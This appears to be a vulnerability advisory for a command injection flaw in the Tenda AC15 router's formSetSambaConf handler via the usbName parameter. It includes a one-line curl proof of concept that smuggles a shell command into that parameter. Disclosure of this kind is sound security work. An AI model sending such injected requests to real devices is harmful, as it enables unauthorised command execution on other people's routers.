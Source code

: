 ## Tenda AC15 command injection

### Overview

* Vendor: Tenda

* Product: Tenda AC15
* Version: V15.03.05.19_multi

* Manufacturer's address：https://www.tendacn.com/
* Firmware download address ：https://static.tenda.com.cn/tdcweb/download/uploadfile/AC15/US_AC15V1.0BR_V15.03.05.19_multi_TD01.zip

### Vulnerability details

Tenda AC15 V15.03.05.19_multi was found to contain a command injection vulnerability in the `formSetSambaConf` function via the `usbName` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.

![image](./img/1.png)

![image](./img/2.png)

#### PoC

```
curl http://192.168.0.1/goform/SetSambaCfg?action=del&usbName=`touch%20/tmp/2.txt`
```

![image-20250413210610225](./img/3.png)
